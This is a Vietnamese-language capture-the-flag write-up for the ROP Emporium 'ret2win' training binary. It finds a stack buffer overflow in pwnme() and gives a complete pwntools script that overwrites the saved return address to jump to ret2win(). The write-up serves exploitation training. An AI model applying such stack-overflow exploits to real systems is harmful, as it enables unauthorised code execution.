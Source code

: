 # ROP_Emporium - ret2win

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm pwnme()

![pwn.png](images/pwnme.png)

Và hàm ret2win()

![ret2win.png](images/ret2win.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 10 cho phép ghi 0x38 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong pwnme thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm ret2win():

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2win', checksec=False)

p = process("./ret2win")

#gdb.attach(p, gdbscript='''''')

payload = flat(
    cyclic(0x28),
    elf.sym['ret2win']+14
    )
p.sendlineafter(b">",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


